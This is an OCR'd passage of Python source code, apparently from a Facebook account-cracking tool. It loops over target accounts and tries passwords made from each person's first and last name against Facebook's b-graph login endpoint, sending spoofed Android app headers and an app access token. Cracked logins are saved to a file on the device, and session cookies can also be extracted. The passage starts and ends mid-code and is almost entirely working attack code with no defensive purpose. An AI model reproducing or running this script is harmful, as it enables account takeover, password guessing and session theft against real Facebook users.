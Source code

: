     print('\n'+("[?]")+'Do You Want To Show Cp Ids?(y/n)')
    cpok=input(f"[+] Input : ")
    print('\n'+("[?]")+'Do You Want To Show Cookies?(y/n)')
    c=input(f"[+] Input : ")
    os.system("clear")
    print(logo) 

    print(f'[+] Total Ids : \033[1;92m'+str(len(accounts)))
    print(f"\033[1;97m[+] Process start your background")

    print('\033[1;97m='*49)
   
    def start(user):
     try:
        global loop,accounts
        r = requests.Session()
        user = user.strip()
        acc, name = user.split("|")
        first = name.rsplit(" ")[0]
        try:
            last = name.rsplit(" ")[1]
        except:
            last = first
        pers = str(int(loop)/int(len(accounts)) * 100)[:4]
        sys.stdout.write('\r\033[1;97m[\033[1;97mPROCESS\033[1;97m]\033[1;97m {}-{}  \033[1;97mOK:\033[1;92m{} \033[1;97mCP:\033[1;91m{}       \r'.format(str(loop), str(len(accounts)), str(len(okacc)) ,str(len(cpacc))))
        sys.stdout.flush()
        for pword in totalpass:              
            heads = "Mozilla/5.0 (Linux; Android 8.1.0; BBB100-1 Build/OPM1.171019.026; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/111.0.5563.115 Mobile Safari/537.36 [FB_IAB/FB4A;FBAV/406.0.0.26.90;]"
            header = {"Content-Type": "application/x-www-form-accencoded","Host": "graph.facebook.com","User-Agent": "Mozilla/5.0 (Linux; U; Android 10; SM-A307FN Build/QP1A.190711.020; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/102.0.5005.125 Mobile Safari/537.36 OPR/7.1.2254.145530","X-FB-Net-HNI": "45204","X-FB-SIM-HNI": "45201","X-FB-Connection-Type": "unknown","X-Tigon-Is-Retry": "False","x-fb-session-id": "nid=jiZ+yNNBgbwC;pid=Main;tid=132;nc=1;fc=0;bc=0;cid=d29d67d37eca387482a8a5b740f84f62","x-fb-device-group": "5120","X-FB-Friendly-Name": "ViewerReactionsMutation","X-FB-Request-Analytics-Tags": "graphservice","Accept-Encoding": "gzip, deflate","X-FB-HTTP-Engine": "Liger","X-FB-Client-IP": "True","X-FB-Server-Cluster": "True","x-fb-connection-token": "d29d67d37eca387482a8a5b740f84f62","Connection": "Keep-Alive"}
            pword = pword.replace("first", first).replace("last", last)
            pword = pword.lower()
            data={"adid": str(uuid.uuid4()),"format": "json","device_id": str(uuid.uuid4()),"cpl": "true","family_device_id": str(uuid.uuid4()),"credentials_type": "device_based_login_password","error_detail_type": "button_with_disabled","source": "device_based_login","email":acc,"password":pword,"access_token":"350685531728|62f8ce9f74b12f84c123cc23437a4a32","generate_session_cookies":"1","meta_inf_fbmeta": "","advertiser_id": str(uuid.uuid4()),"currently_logged_in_userid": "0","locale": "en_US","client_country_code": "US","method": "auth.login","fb_api_req_friendly_name": "authenticate","fb_api_caller_class": "com.facebook.account.login.protocol.Fb4aAuthHandler","api_key": "882a8490361da98702bf97a021ddc14d"}
            response = r.post('https://b-graph.facebook.com/auth/login',data=data,headers=header,allow_redirects=False)
      #      print(response.text)
            if 'session_key' in response.text:
                okacc.append(acc)
                print('\r\033[1;92m[\033[1;97mRA-OK\033[1;92m] \033[1;97m'+acc+' \033[1;92m•\033[1;97m '+pword+'  ')
                open('/sdcard/RA.RANDOM-OK.txt','a').write(f'{acc} • {pword}\n')
                if c=='y':
                    try:
                           q = json.loads(response.text)
                           ckkk = ";".join(i["name"]+"="+i["value"] for i in q["session_cookies"])